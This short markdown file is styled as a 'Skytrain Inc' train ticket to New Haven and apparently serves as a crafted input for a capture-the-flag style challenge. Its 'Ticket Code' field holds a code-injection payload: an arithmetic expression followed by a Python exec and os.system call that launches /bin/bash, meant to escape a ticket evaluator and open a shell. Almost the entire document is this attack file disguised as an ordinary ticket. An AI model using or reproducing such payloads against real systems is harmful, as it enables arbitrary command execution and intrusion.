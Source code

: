 # Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**46+5;'exec("import os") or os.system("/bin/bash")'**
##Issued: 2021/04/06
#End Ticket

